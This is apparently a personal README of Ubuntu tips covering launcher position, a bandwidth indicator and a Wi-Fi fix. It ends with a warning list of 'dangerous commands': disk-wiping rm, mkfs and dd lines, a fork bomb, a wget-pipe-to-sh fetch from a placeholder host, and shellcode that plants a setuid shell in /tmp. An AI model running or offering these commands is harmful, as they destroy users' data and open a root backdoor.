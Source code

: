 # Linux Stuff

## Move Unity Launcher (Icon Bar)

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```

```sudo apt-add-repository ppa:fixnix/netspeed```

```sudo apt-get update```

```sudo apt-get install indicator-netspeed-unity```

## Ubuntu 17.04
### If Wifi is not connecting

#### Edit the file /etc/NetworkManager/NetworkManager.conf

```sudo su```

```pico /etc/NetworkManager/NetworkManager.conf```

####Add the following code at the end of this file

```[device]
wifi.scan-rand-mac-address=no```

####After saving simply restart the network

```sudo service network-manager restart```


## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```

```rm -r command deletes the folder recursively, even the empty folder.```

```rm -f command removes ‘Read only File’ without asking.```

```rm -rf / : Force deletion of everything in root directory.```

```rm -rf * : Force deletion of everything in current directory/working directory.```

```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```

